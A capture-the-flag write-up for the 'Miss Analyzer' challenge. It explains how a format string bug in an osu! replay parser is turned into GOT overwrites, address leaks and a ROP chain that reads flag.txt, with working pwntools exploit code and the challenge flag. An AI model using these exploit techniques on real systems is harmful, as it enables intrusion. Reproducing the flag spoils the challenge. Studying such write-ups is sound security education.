








# Miss Analyzer

_Disclaimer: I solved this challenge just after the CTF had ended_

```
$ tar xvf pwn_miss-analyzer-v2.tar.gz
dist/
dist/Dockerfile
dist/analyzer
dist/flag.txt
dist/libc.so.6
dist/nsjail.cfg

$ pwn checksec dist/analyzer
[*] '/home/files/dist/analyzer'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

## functionality

This binary was designed to parse an osu! replay (`.osr`) file. In particular,
the contents of the binary data file are to be hexdumped into `stdin`, all on
one line. The binary contains a string specifying the expected usage

```
$ strings analyzer
/lib64/ld-linux-x86-64.so.2
__gmon_start__
seccomp_load
seccomp_release
...

Submit replay as hex (use xxd -p -c0 replay.osr | ./analyzer):

...
.data
.bss
.comment
```

Once the input has been read, the hex is decoded to raw bytes for further
processing.

This is further reflected in the `main` function, which simply reads one line
containing hex from the user, and converts it to binary arbitrarily.



This shows that the `main` function only retrieves input _once_.

Once reading in the `.osr` file from hex, the program goes to fetch some
metadata about the replay.

- Which game type that was played in the replay file. (ie. its mode)
- Its hash, represented by a string
- The player who created the replay file
- The total number of prompts missed within the replay



Luckily, the data format that the binary is expecting to parse is a subset of
the data formats specified on [OSU's well documented
wiki](https://osu.ppy.sh/wiki/en/Client/File_formats/osr_%28file_format%29).
This shows that the data contained within the file is expected to be written in
a specific order, following both fixed and variable data sizes.

Using Binary Ninja\*, we can look at
the implementation of each of these parsers, starting at the most basic and
move our way up.

### Byte parser



This primitive is immediately fairly simple, but shows the general approach for
parsing out data. The function reads a byte from the buffer _if and only if_ the
length of the read buffer is non-zero. Once read, the head of the buffer is
incremented, and the count is decremented. As both the buffer and count are
passed in by reference, this update is made to ensure that subsequent calls read
the most relevant data, but also avoids performing an out-of-bound read.

For a single byte? This is just done once. Evidently, for larger data types,
additional bytes will have to be read in at a given time. What is nice, however,
is that this primitive is used _within_ all other parsers. Therefore, all
parsers operate in a similar manner

### Short parser



As previosuly alluded to, this parser namely calls `read_byte` twice to read the
lower significant, than most signifcant byte of the short, in that order. For
one reason or another, the most significant byte is multiplied by the _float_
`256.0`, rather than just an 8-bit shift, then added to the lower byte. Either
way, this achieves the operation of extracting two bytes, in little endian
order, and generating the corresponding short.

### String parser

This component is the most complex of the three parsers within the binary, but
the documentation on the osu! wiki helps out greatly here.

> Has three parts; a single byte which will be either 0x00, indicating that the
> next two parts are not present, or 0x0b (decimal 11), indicating that the next
> two parts are present. If it is 0x0b, there will then be a ULEB128,
> representing the byte length of the following string, and then the string
> itself, encoded in UTF-8. See UTF-8

As such, we can look at each of these three parts to the string parser



This first chunk determines if the string buffer is even present in the file. If
it is, the parser (and file format, for that matter), expects this byte to be
`0x0b` if the string is present or `0x00` if not.



Given that the string is found within the buffer, the parser will try to
determine the length of the string. As specified within the documentation, this
string length is specified using the
[ULEB128](https://en.wikipedia.org/wiki/LEB128) data type format. Wikipedia has
really good pseudocode to generate/parse these formats, but the tldr would be
that this data format allows an integer to be represented by chunks of 7 bits,
using the most significant bit as an indicator there exist future chunks
corresponding to the value.



Last but not least, once we get the actual length of the string, we can read
_out_ the bytes into a buffer passed in by reference.

Importantly, this out buffer _is_ on the stack of the caller function (which
would be the `main` function in our case), but the size of the out buffer is
specified, and the length of the data read to the buffer is the minimum between
the string length and buffer size. Therefore, no out-of-bound writes

The function copys either the string length and the buffer size, whichever's
greater, into the outpur buffer. In the case that the former is larger, it
finsihes by consuming the remaining bytes in the stream before returning.

Each of these data points are printed to the terminal immediately after parsing
that part of the file.

Once completed, the program cleans up, and returns. Nothing too fancy beyond
that.

One item that I've been glossing over thus far would be the program's
specification of `seccomp(2)` rules. Two filters are specifically set at the
beginning of the program, which namely are `execve` and `stub_execveat`. This
would namely mean that the program would be disallowed from spawning new
processes. This does not affect anything in our current program flow, but, as a
spoiler, it makes things a little less fun. (\*_cough_\*)



## vulnerabilities

| Address       | Description of Vulnerability  |
|--:            |:--                            |
| 0x0401ada     | There is a call to `printf(3)` that uses an input string of at most 255 bytes in size. This provides both an arbitrary read and an arbitrary write |

... That's it. The entire exploit script needs to revolve around this single
arbitrary read and arbitrary write vulnerability.

## exploitation

Admittedly I was at a loss at first as there was no apparent way to overwrite
the return address, enabling arbitrary code flow. From what I saw, the code was
very memory secure, and the `printf` function call eqs done in aain, entailing
no series of base addresses to abuse. However, as the binary is position
_dependent_ and has Partial RELRO. This means that there may be a GOT entry that
we could abuse to start playing around with

``` pwndbg> got
Filtering out read-only entries (display them with -r or --show-readonly)

State of the GOT of /home/user/files/dist/analyzer_patched:
GOT protection: Partial RELRO | Found 16 GOT entries passing the filter
[0x404018] free@GLIBC_2.2.5 -> 0x401030 ◂— endbr64
[0x404020] seccomp_init -> 0x7f0187f86760 (seccomp_init) ◂— endbr64
[0x404028] putchar@GLIBC_2.2.5 -> 0x401050 ◂— endbr64
[0x404030] seccomp_rule_add -> 0x7f0187f87ab0 (seccomp_rule_add) ◂— endbr64
[0x404038] puts@GLIBC_2.2.5 -> 0x7f0187c80e50 (puts) ◂— endbr64
[0x404040] seccomp_load -> 0x7f0187f86f40 (seccomp_load) ◂— endbr64
[0x404048] strlen@GLIBC_2.2.5 -> 0x7f0187d9d860 (__strlen_avx2) ◂— endbr64
[0x404050] __stack_chk_fail@GLIBC_2.4 -> 0x4010a0 ◂— endbr64
[0x404058] printf@GLIBC_2.2.5 -> 0x7f0187c606f0 (printf) ◂— endbr64
[0x404060] seccomp_release -> 0x4010c0 ◂— endbr64
[0x404068] memset@GLIBC_2.2.5 -> 0x7f0187da1000 (__memset_avx2_unaligned_erms) ◂— endbr64
[0x404070] strcspn@GLIBC_2.2.5 -> 0x7f0187d98610 (__strcspn_sse42) ◂— endbr64
[0x404078] malloc@GLIBC_2.2.5 -> 0x7f0187ca50a0 (malloc) ◂— endbr64
[0x404080] setvbuf@GLIBC_2.2.5 -> 0x7f0187c815f0 (setvbuf) ◂— endbr64
[0x404088] getline@GLIBC_2.2.5 -> 0x7f0187c61db0 (getline) ◂— endbr64
[0x404090] exit@GLIBC_2.2.5 -> 0x401120 ◂— endbr64
```

These GOT entries are _lazily linked_, which entails that the binary will
attempt to resolve their addresses at runtime when the function is being called.
This was a common compiler option as it improved the time to start up a given
binary. The binary only needed to resolve addresses at the moment the desired
function is called, thus, GOT entries can point to code which resolves each
entry stored within the binary itself. Once determined, the GOT can be updated
to point to the desired function in `libc`.

Lazily linked GOT entries, however, require a _writable_ memory allocation at
runtime, leading it vulnerable to manipulation. In our case, we can abuse an
unsresolved GOT entry to point back within the binary (especially since we know
its exact address with the binary being position-dependent) and launch the main
function a second time. This means we can resolve an address in `libc` the first
time we abuse the `printf` vulnerability, and abuse it too.

From the entries above, it is seen that most GOT entries have been resolved to
their `libc` addresses. However, there are some unresolved entries, namely the
following:

- `free@GLIBC_2.2.5`
- `putchar@GLIBC_2.2.5`
- `__stack_chk_fail@GLIBC_2.2.5`
- `seccomp_release@GLIBC_2.2.5`
- `exit@GLIBC_2.2.5`

> References I found useful related to lazy linking
>
> - [Lecture Notes: Basics of the Global Offset Table](https://cs4401.walls.ninja/notes/lecture/basics_global_offset_table.html)
> - [Why does gcc link with '-z now' by default, although lazy binding is the default for ld?](https://stackoverflow.com/a/65277554)
> - [RELocation: Read-Only](https://hockeyinjune.medium.com/relro-relocation-read-only-c8d0933faef3)
>
> tldr, _this_ is the reason why relocation tables are writable - to improve
> binary startup performance. However, modern compilers typically opt to resolve
> address entries _immediately at load_ and ensure the GOT is read-only

Of these unresved GOT entries, `seccomp_release` was the most promising as it
was called oractically at the end of the function. Since it currently pointed to
`0x4010c0`, we can simplely overwrite the least significant short of that
address such that it points to the start of `main`. Pointing the function call
there achirves two things:

- Multiple calls to input and `printf`, which we can further abuse
- ensure that the location of our format specifier is aligned to an 16-byte
  address to keep `printf` happy
    - failure to do so will cause the bianry to crash

I originally thought that building a call tree like this would cause issues for
exploitation since a return address was continuously being pushed onto the
stack, but since `main` builds its own stack frame everytime, it's actually
fine.

A small blocker to this would be that there is no address pointing to the GOT
entry within the stack at the time we call. This is easily remedied however as
we can introduce such a pointer into the stack before the `printf` call is
performed. This could be done all in one call, but in my solve script, I opt to
write the address of the GOT entry I want to poison, `seccomp_release` in my
case, with two inputs. First using the prompt to read the replay file's hash,
then writing my format string payload in a second. With these steps, it's
required that the format string payload is shorter in length than that of the
first input, preventing an overwrite of the address we spent time to place into
the stack.

The following is what the stack looks like after each string is read, using big
endian for readability

After reading the "hash" of the replay

```
            ,-stack----------,
            |      ...       |
str_buf --> |aaaaaaaaaaaaaaaa|
            |aaaaaaaaaaaaaaaa|
            |aaaaaaaaaaaaaaaa|
            |aaaaaaaaaaaaaaaa|
            |aaaaaaaaaaaaaaaa|
            |aaaaaaaaaaaaaaaa|
            |aaaaaaaaaaaaaaaa|
            |aaaaaaaaaaaaaaaa|
            |      ...       |
            |aaaaaaaaaaaaaaaa|
            |aaaaaaaaaaaaaaaa|
            |aaaaaaaaaaaaaaaa|
        +---|0000000000404060|
        |   |      ...       |
        |   '----------------'
        |          ...
        |   ,-got------------,
        |   |      ...       |
        |   |00007f0187c707f0| --> printf @ libc
        +-->|00000000000401c0| --> seccomp_release thunk
            |00007f0187d98610| --> __memset_avx2_unaligned_erms @ libc
            |      ...       |
            '----------------'
```

After reading the "name" of the replay

```
            ,-stack----------,     ,  ...   ,
            |      ...       |     |........|
str_buf --> |7061796c6f616420|     |payload |
            |676f657320686572|     |goes her|
            |653a3eaaaaaaaaaa|     |e :>....|
            |aaaaaaaaaaaaaaaa|     |........|
            |aaaaaaaaaaaaaaaa|     `  ...   `
            |aaaaaaaaaaaaaaaa|
            |aaaaaaaaaaaaaaaa|
            |aaaaaaaaaaaaaaaa|
            |      ...       |
            |aaaaaaaaaaaaaaaa|
            |aaaaaaaaaaaaaaaa|
            |aaaaaaaaaaaaaaaa|
        +---|0000000000404060|
        |   |      ...       |
        |   '----------------'
        |          ...
        |   ,-got------------,
        |   |      ...       |
        |   |00007f0187c707f0| --> printf @ libc
        +-->|00000000000401c0| --> seccomp_release thunk
            |00007f0187d98610| --> __memset_avx2_unaligned_erms @ libc
            |      ...       |
            '----------------'
```

The `python3` code to build these blocks can be seen below:

```py
    payload = b''.join([
        b"\x00",                                # replay type
        b"\xde\xad\xbe\xef",                    # 4 bytes for consumption
        to_serialized_str(flat({0x0: b"yippee", # hash
                                0xf0: p64(exe.got["seccomp_release"]),
                                })),
        to_serialized_str(format_payload),      # name (printf vuln)
        to_serialized_str(b"yahoooooooo"),      # replay
        b'a' * 10,                              # consume a couple of bytes
        struct.pack(">H", 0x00),                # read a short
    ])
    r.sendlineafter(b"\n", payload.hex().encode())
```

in my solve script specifically, the address to the `seccomp_release` entry is
places `0x28` quadwords below the top of the stack. With this knowledge, we can
build up our format string payload.

We want to definitely leak some addresses on the stack, namely the following:

- An address pointing to somewhere in `libc`
    - Specifically, `%53$llx`, which gives us the return address to
      `__libc_start_main`.
- An address pointing to somewhere in the stack
    - Specifically, `%6$llx`, which points to the start of the buffer containing
      our raw input.

We also want to point the GOT entry for `seccomp_release`. Accounting for the
bytes written out by our address leaks, we get the following payload which ties
everything together.

```py
f"%53$llx.%6$llx.%{exe.sym['main']&0xffff-22}u%46$hn"
# |       |        |                      |    `- Write to the address at argument 46
# |       |        |                      `- account for the previous number of bytes printed
# |       |        `- Write out the two LSB of the main address
# |       `- Stack address leak
# `- libc leak
```

Now equipped with multiple arbitrary writes, and the locations of `libc` and the
stack, we can now create a ROP chain and win!

Well... with the caviat that there are seccomp rules in place which disable the
use of either `execve` and `execveat`, which disables the use of `system` or
other typical methods to spawn a shell. Therefore, out ROP chain must be one
to read and print out `flag.txt`

This is decently straight forward. I write `flag.txt\x00` to some known memory
address, then perform a series of `open`, `read` and `write` calls to dump the
file contents

This simply looks like the following in `python3`, where `flag_addr` is the
address of where I wrote `flag.txt`, which I did when writing in the hash.

```py
    # the payload above should bring us back to the start of main!! so now we
    # set up a rop chain
    rop = ROP(libc)
    # rop.raw(rop.ret)                            # just in case, like usual
    rop.call("open", [flag_addr, 0, 0])
    # read/write the flag into the global section of the exe
    rop.call("read", [3, 0x404080, 0xff])
    rop.call("write", [1, 0x404080, 0xff])
    rop.call("exit", [0])
```

Now, regarding the manner of writing multiples of shorts onto the stack such
that we create our ROP chain, I perform double duty when writing things onto the
stack. Since we know the address of the stack, and thus the address of the
original main function call, we can build our ROP chain there, and exit out the
multiples of additional `main` stack frames invoked by destroying the GOT entry
of `seccomp_release`.

Using trial and error more than anything, I determine how many shorts I can
write in a given call to `printf`, as I fill the upper half of the 256B buffer
with the format string payload, and fill the lower half of the buffer with
addresses to write to. Using `pwndbg`'s `tel` command, this is what that looks
like:

```c
0a:0050│ rdi 0x7fffdf818f60 ◂— '%62295c%30$hn%57690c%31$hn%43782c%32$hn%32841c%33$hn%34$hn%35$hn%36$hn%37$hn'
0b:0058│-118 0x7fffdf818f68 ◂— '30$hn%57690c%31$hn%43782c%32$hn%32841c%33$hn%34$hn%35$hn%36$hn%37$hn'
0c:0060│-110 0x7fffdf818f70 ◂— '690c%31$hn%43782c%32$hn%32841c%33$hn%34$hn%35$hn%36$hn%37$hn'
0d:0068│-108 0x7fffdf818f78 ◂— 'hn%43782c%32$hn%32841c%33$hn%34$hn%35$hn%36$hn%37$hn'
0e:0070│-100 0x7fffdf818f80 ◂— 'c%32$hn%32841c%33$hn%34$hn%35$hn%36$hn%37$hn'
0f:0078│-0f8 0x7fffdf818f88 ◂— '32841c%33$hn%34$hn%35$hn%36$hn%37$hn'
10:0080│-0f0 0x7fffdf818f90 ◂— '3$hn%34$hn%35$hn%36$hn%37$hn'
11:0088│-0e8 0x7fffdf818f98 ◂— 'hn%35$hn%36$hn%37$hn'
12:0090│-0e0 0x7fffdf818fa0 ◂— '%36$hn%37$hn'
13:0098│-0d8 0x7fffdf818fa8 ◂— 0x616161006e682437 /* '7$hn' */
14:00a0│-0d0 0x7fffdf818fb0 ◂— 0x6161617661616175 ('uaaavaaa')
15:00a8│-0c8 0x7fffdf818fb8 ◂— 0x6161617861616177 ('waaaxaaa')
16:00b0│-0c0 0x7fffdf818fc0 ◂— 0x6261617a61616179 ('yaaazaab')
17:00b8│-0b8 0x7fffdf818fc8 ◂— 0x6261616362616162 ('baabcaab')
18:00c0│-0b0 0x7fffdf818fd0 —▸ 0x7fffdf819208 —▸ 0x7fb7d4a29d90 (__libc_start_call_main+128) ◂— mov edi, eax
19:00c8│-0a8 0x7fffdf818fd8 —▸ 0x7fffdf81920a ◂— 0x7fb7d4a2
1a:00d0│-0a0 0x7fffdf818fe0 —▸ 0x7fffdf81920c ◂— 0x7fb7
1b:00d8│-098 0x7fffdf818fe8 —▸ 0x7fffdf81920e ◂— 0
1c:00e0│-090 0x7fffdf818ff0 —▸ 0x7fffdf819210 ◂— 0
1d:00e8│-088 0x7fffdf818ff8 —▸ 0x7fffdf819212 ◂— 0x1749000000000000
1e:00f0│-080 0x7fffdf819000 —▸ 0x7fffdf819214 ◂— 0x40174900000000
1f:00f8│-078 0x7fffdf819008 —▸ 0x7fffdf819216 ◂— 0x4017490000
```
In short, for every pointer I write onto the stack, there is an format string
payload that writes the correct short at that address which achieves the ROP
chain. Add too many addresses into the buffer and the payload risks overwriting
the addresses being referenced, while write too little and we would not be
optimal in our requests.

That balancing game looks like the following in `python3` code

```py
    # write a bunch of shorts per request
    rop_head = main_scope_ret_addr

    for i in range(repititons):
        addr_offset = 0x18 + 6
        format_payload = b""
        addr_table = b""
        total_written = 0
        print_amount = 0
        for short in rop_shorts[i*shorts_per_req : (i+1)*shorts_per_req]:
            addr_table += p64(rop_head)
            rop_head += 2

            # add each short such that it'd write to the address we added
            short_raw = unpack(short, "all")
            print_amount = (short_raw - (total_written & 0xffff) + 0x10000) % 0x10000
            if(short_raw or print_amount):
                format_payload += f"%{print_amount}c".encode("ascii")
                total_written += print_amount
            format_payload += f"%{addr_offset}$hn".encode("ascii")
            addr_offset += 1

        payload = b''.join([
            b"\x00",                                # replay type
            b"\xde\xad\xbe\xef",                    # 4 bytes for consumption
            to_serialized_str(flat({0x0: b"yippee", # hash
                                    0x100 - addr_table_size: addr_table,
                                    })),
            to_serialized_str(format_payload),      # name (printf vuln)
            to_serialized_str(b"yahoooooooo"),      # replay
            b'a' * 10,                              # consume a couple of bytes
            struct.pack(">H", 0xff),                # read a short
        ])
        r.sendlineafter(b"Submit", payload.hex().encode())
        r.info(f"sent {i+1}: {format_payload=}")
```

Now that the ROP chain is set up, we simply need to get to pop off all the stack
frames we created and return to the original call to main, where the ROP chain
now lies. Luckily, this is as simple as overwriting the GOT entry of
`seccomp_release` to instead point at a `ret` address, as it would immediate
return and cause the top-most call to `main` to clean its stack frame (and
domino affect its way back down)

Once we hit our ROP chain, we see success

## flag

`osu{fmtstr_in_the_b1g_2025}`

> \* I was given a year's license to use Binary Ninja for ICC 2025 under the
> condition I create this writeup. So, ([\*_cough_\*](https://youtu.be/j69knNADinw))
